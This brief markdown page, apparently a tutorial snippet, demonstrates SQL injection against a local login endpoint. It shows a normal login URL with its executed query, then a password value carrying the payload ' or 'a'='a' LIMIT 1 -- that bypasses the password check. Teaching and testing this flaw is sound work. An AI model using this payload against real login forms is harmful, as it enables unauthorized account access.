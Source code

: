 ## 注入

----

```
http://127.0.0.1:3000/login?username=zhangsan&password=123
```

Executed SQL: 
```sql
SELECT `id`, `name`, `pass`, `description`, `role_id` 
FROM `user` 
WHERE `name` = 'zhangsan' AND `pass` = '123'
```

```
http://127.0.0.1:3000/login?username=zhangsan&password=11' or 'a'='a' LIMIT 1 -- -'
```

Executed SQL:
```
SELECT `id`, `name`, `pass`, `description`, `role_id` 
FROM `user` 
WHERE `name` = 'zhangsan' AND `pass` = '11' or 'a'='a' LIMIT 1 -- -'
```